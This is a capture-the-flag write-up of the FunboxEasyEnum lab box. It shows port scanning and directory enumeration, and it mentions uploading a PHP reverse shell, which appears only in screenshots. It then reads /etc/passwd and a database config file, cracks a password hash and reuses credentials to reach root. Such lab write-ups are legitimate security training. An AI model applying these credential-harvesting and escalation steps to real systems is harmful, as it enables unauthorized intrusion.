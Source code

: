 ```yaml
---
title: "Offensive Security: FunBoxEasyEnum"
author: "v3l1d"
date: "2024-08-08"
---
```



![](attachment/93250afd83aff038b608942734b9a111.jpg)

On a lazy Saturday morning, August 17, 2024, I embarked on a thrilling adventure in the world of Offensive Security, tackling the FunboxEasyEnum box on the Proving Grounds Play labs. This easy-level warmup machine was the perfect way to kick-start my journey, and I'm excited to share my experience with you.

### Port Scan

From port scan we got:

```shell
nmap -sC -sV -A -T4 -p- 192.168.235.132  -o scan 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 08:12 EDT
Nmap scan report for 192.168.235.132
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.77 seconds

```


### Enumeration 

Ran gobuster for directory enumeration:

![](attachment/8056c88ec9d48a1a73583502575dc7a7.png)

Only /phpmyadmin is accessible
![](attachment/2f1137ed6b04c6e54a3555ea3b74f8bb.png)

Analyzing burp request found that /phpmyadmin/js/whitelist.php and /js/messages.php are readable:
![](attachment/0bc35d213b3744dff25955d61e5c3dc7.png)

Nothing interesting here, re run enumeration with gobuster filtering for php file:

![](attachment/343af38a849df0558dcd46d857f37a9b.png)

Try mini.php:

![](attachment/4d78da8958ab8e7f54fd207350384649.png)
### Access

I uploaded a shell.php while listening on my kali:

![](attachment/c776a86f8411bde6fc6f25428c54b0c8.png)

```shell
lrwxrwxrwx   1 root root        31 Sep 18  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-117-generic
$ cd /var/www/ 
$ ls
html
local.txt
$ cat local.txt
896e80f60f8536d18c123448e656a7fc
$ 

```

Found first flag


```shell
www-data@funbox7:/etc$ cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
www-data@funbox7:/etc$ 

```

There's an hash in passwod

```shell
hashcat -m 500 oracle_hash
found:hiphop

```

Regain the revshell and from www-data run sudo su

``` shell
www-data@funbox7:/etc/phpmyadmin$ ls
ls
apache.conf    config.footer.inc.php  htpasswd.setup      phpmyadmin.service
conf.d         config.header.inc.php  lighttpd.conf
config-db.php  config.inc.php         phpmyadmin.desktop
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

```

Now we can log in phpmyadmin

![](attachment/4f8c1e0352e5cffceb06abbef4a03b5b.png)

```
sudo su karla:tgbzhnujm! 
```

Let's see what karla can run

``` shell
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL

```

Run sudo su with its password:

```shell
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# ls
root@funbox7:/home/karla# cd /root/root.txt
bash: cd: /root/root.txt: No such file or directory
root@funbox7:/home/karla# cd /root
root@funbox7:~# ls
proof.txt  root.flag
root@funbox7:~# 
```

![](attachment/23b8ace2c3ef681dca18c48344780c46.png)


# Flags

```shell
local:896e80f60f8536d18c123448e656a7fc
proof.txt: d0a70330bf49d3799b000cbe3d7ec011
```

